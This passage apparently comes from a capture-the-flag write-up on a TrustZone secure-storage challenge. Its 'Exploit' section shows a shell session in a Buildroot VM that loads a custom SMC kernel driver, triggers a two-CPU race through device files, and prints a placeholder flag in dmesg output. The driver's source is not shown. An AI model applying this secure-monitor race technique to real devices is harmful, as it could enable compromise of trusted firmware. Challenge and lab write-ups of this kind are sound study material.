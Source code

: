 ![image-20250314162910063](./img/trust_storage_wp/image-20250314162910063.png)

## Exploit

```bash
Welcome to Buildroot, type root or test to login
buildroot login: root
# mkdir /mnt/shared && mount -t 9p -o trans=virtio hostshare /mnt/shared
# insmod /mnt/shared/smc_driver.ko
# cat /dev/step1_driver 
cat: read error: Invalid argument
# cat /dev/step2_driver 
cat: read error: Invalid argument
# dmesg
...
[   24.694680] smc_driver: loading out-of-tree module taints kernel.
[   24.700790] SMC Driver: Initializing the driver
[   24.702449] SMC Driver: Device created successfully
[   31.985097] Step1: Device opened
[   31.986342] SMC Driver: LOG_SVC_PLOG_SET, res.0 = 0x423dc008
[   31.988060] func2 is running on CPU 2
[   31.989497] func1 is running on CPU 1
[   31.990671] Step1: Device closed
[   31.991532] Condition successed!
[   35.817774] Step2: Device opened
[   35.818487] flag: flag{123123123123}
[   35.819386] Step2: Device closed
```
